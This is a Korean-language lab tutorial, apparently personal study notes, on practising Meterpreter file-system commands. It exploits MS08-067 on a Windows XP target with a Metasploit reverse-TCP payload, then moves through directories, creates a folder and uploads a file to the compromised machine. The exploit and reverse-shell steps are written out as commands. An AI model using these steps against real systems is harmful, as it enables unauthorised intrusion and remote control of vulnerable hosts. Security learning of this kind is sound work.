 stdapi extension 중 file system command를 연습해보자

칼리 리눅스에서 root 계정 진입 후 윈도우 XP를 타겟 컴퓨터로 하여 exploit, set payload, run

취약점 ms08-067 사용

```jsx
root@kali:~# msfconsole
msf5 > search ms08-067
msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > set payload windows/meterpreter/reverse_tcp_allports
msf5 exploit(windows/smb/ms08_067_netapi) > show options
msf5 exploit(windows/smb/ms08_067_netapi) > set RHOST [공격대상 IP]
msf5 exploit(windows/smb/ms08_067_netapi) > set LHOST [Kali IP]
msf5 exploit(windows/smb/ms08_067_netapi) > run
```

미터프리터 세션이 열렸으면 앞에서 소개한 명령어들을 실행시키며 연습해보자 

```jsx
meterpreter > pwd //타겟 시스템의 현재 디렉토리 출력
meterpreter > lpwd //로컬 시스템의 현재 디렉토리 출력
```

현재 공격대상과 로컬 컴퓨터 디렉토리 위치를 확인할 수 있다.

현재 위치하고 있는 디렉토리는 c\windows\system32 이다. cd 명령어를 이용해 현재 위치를 변경해보자 

```jsx
meterpreter > cd ..
meterpreter > pwd
```

cd .. 명령어를 이용하면 현재 위치하고 있는 디렉토리의 바깥 디렉토리로 이동하게 된다.

WINDOWS 폴더로 이동해보고 현재 위치를 확인해보자

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/573cb9d2-cc97-42bf-8c2d-60170f6dfd4e/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/573cb9d2-cc97-42bf-8c2d-60170f6dfd4e/Untitled.png)

이번에는 mkdir 명령어를 통해 새로운 디렉토리를 만들어보자 

```jsx
meterpreter > mkdir newDir
meterpreper > ls
```

ls 로 파일과 디렉토리 목록을 확인 할 수 있다.

'newDir' 폴더가 생성된 것을 확인 할 수 있다.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/42fbe85c-ce32-47b4-8fe8-7ad53c0630b6/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/42fbe85c-ce32-47b4-8fe8-7ad53c0630b6/Untitled.png)

새로만든 디렉토리에 칼리에 생성된 hashXP.txt 파일을 업로드 해보자

```jsx
meterpreter > cd newDir
meterpreter > pwd
meterpreter > upload /home/kali/Desktop/hashXP.txt "c:\WINDOWS\\newDir" //hashXP.txt 업로드
meterpreter > ls
```
